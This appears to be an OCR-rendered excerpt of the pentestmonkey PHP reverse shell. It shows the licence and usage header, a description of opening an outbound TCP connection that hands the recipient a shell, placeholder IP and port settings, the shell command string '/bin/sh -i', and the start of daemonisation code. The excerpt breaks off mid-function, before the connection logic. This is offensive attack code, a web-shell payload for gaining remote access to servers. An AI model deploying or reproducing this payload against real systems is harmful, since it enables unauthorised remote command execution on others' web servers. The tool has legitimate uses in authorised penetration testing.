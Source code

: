```plain
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
    // Fork and have the parent process exit
    $pid = pcntl_fork();

    if ($pid == -1) {
        printit("ERROR: Can't fork");
        exit(1);
    }

    if ($pid) {
        exit(0);  // Parent exits
    }
```